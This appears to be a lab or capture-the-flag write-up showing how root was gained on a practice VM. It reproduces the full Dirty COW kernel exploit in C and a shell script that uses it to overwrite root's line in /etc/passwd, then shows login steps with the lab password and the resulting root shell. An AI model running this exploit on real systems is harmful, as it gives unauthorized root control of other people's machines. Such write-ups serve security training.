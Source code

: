 # Changing root's password
- We are going to change the password of root with another dirty cow exploit `scripts/script4`
- The new password will be set to `root`
- Our exploit is gonna change the first line of `/etc/passwd` to `root:roK20XGbWEsSM:0:0:root:/root:/bin/bash`
- `roK20XGbWEsSM` being the hash generated with `crypt("root", "root")`

## C Code
Snippet of the race condition we are going to exploit
https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
- Compile with `gcc -pthread pokemon.c -o pokemon`

```C
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <unistd.h>

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

void *madviseThread(void *arg)
{
    int i, c=0;
    for(i=0;i<200000000;i++)
        c+=madvise(map,100,MADV_DONTNEED);
}

int main(int argc,char *argv[])
{
    if(argc<3)
        return 1;
    f=open(argv[1],O_RDONLY);
    fstat(f,&st);
    map=mmap(NULL,
             st.st_size+sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
	printf("Changing root's password, this may take a while...\n");
    pid=fork();
    if(pid) {
        waitpid(pid,NULL,0);
        int u,i,o,c=0,l=strlen(argv[2]);
        for(i=0;i<10000/l;i++)
            for(o=0;o<l;o++)
                for(u=0;u<10000;u++)
        c += ptrace(PTRACE_POKETEXT,
                    pid,
                    map+o,
                    *((long*)(argv[2]+o)));
    }
    else {
        pthread_create(&pth,
                       NULL,
                       madviseThread,
                       NULL);
        ptrace(PTRACE_TRACEME);
        kill(getpid(),SIGSTOP);
        pthread_join(pth,NULL);
    }
    return 0;
}
```
## Script
- `chmod +x` to make it executable

```shell
#! /bin/sh

cat << EOF > exploit.c
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <unistd.h>

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

void *madviseThread(void *arg)
{
    int i, c=0;
    for(i=0;i<200000000;i++)
        c+=madvise(map,100,MADV_DONTNEED);
}

int main(int argc,char *argv[])
{
    if(argc<3)
        return 1;
    f=open(argv[1],O_RDONLY);
    fstat(f,&st);
    map=mmap(NULL,
             st.st_size+sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
	printf("Changing root's password, this may take a while...\n");
    pid=fork();
    if(pid) {
        waitpid(pid,NULL,0);
        int u,i,o,c=0,l=strlen(argv[2]);
        for(i=0;i<10000/l;i++)
            for(o=0;o<l;o++)
                for(u=0;u<10000;u++)
        c += ptrace(PTRACE_POKETEXT,
                    pid,
                    map+o,
                    *((long*)(argv[2]+o)));
    }
    else {
        pthread_create(&pth,
                       NULL,
                       madviseThread,
                       NULL);
        ptrace(PTRACE_TRACEME);
        kill(getpid(),SIGSTOP);
        pthread_join(pth,NULL);
    }
    return 0;
}
EOF
gcc -pthread exploit.c -o pokemon
./pokemon /etc/passwd "root:roK20XGbWEsSM:0:0:root:/root:/bin/bash"
rm pokemon
rm exploit.c

echo "The password is root :)"
su root
```
## Running the exploit
- Send the exploit to the machine
```
$ scp scripts/script4 zaz@192.168.56.105:/home/zaz/exploit
[...]
zaz@192.168.56.105's password: 646da671ca01bb5d84dbb5fb2238dc8e
[...]
```
- Connect to the machine
```
$ ssh zaz@192.168.56.105
[...]
zaz@192.168.56.105's password: 646da671ca01bb5d84dbb5fb2238dc8e
[...]
```
- Run the exploit
```
$ ./exploit
Changing root's password, this may take a while...
The password is root :)
Password: root
```

- User check
```
$ whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```
